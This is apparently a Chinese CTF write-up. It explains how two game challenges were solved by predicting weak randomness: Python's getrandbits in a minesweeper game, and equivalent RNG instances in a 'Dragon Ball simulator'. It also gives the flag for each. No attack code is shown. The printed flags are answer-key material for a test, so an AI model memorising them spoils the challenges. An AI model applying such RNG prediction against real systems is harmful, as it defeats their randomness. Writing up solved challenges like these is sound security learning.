分析源代码. 已知 Python 的`getrandbits`是可预测的.

于是我们可以直接爆破随机，得到下一个雷图，赢得游戏（见本题文件`hard.py`）.

得到 flag：`flag{easy_To_guess-easY_to_sweep}`.

## 龙珠模拟器

分析源代码. 发现对 BALL_LIST 里的球，他们只有 chunkSize 不同. 这也就意味着，在 chunkOffset 相同的情况下，对于所有的球，他们的 rng 实例都是数学等价的. 再考察 nextInt 的内部实现，发现只要运气比较好，那么对于两次随机，他们取模前的数都是相同的. 所以可以每次根据小球暴力枚举大球位置，多玩几次即可（见本题文件`work.js`）.

获得 flag：`flag{5umm0n_the_drag0n__a8ba47ed1c7ea4f9}`.
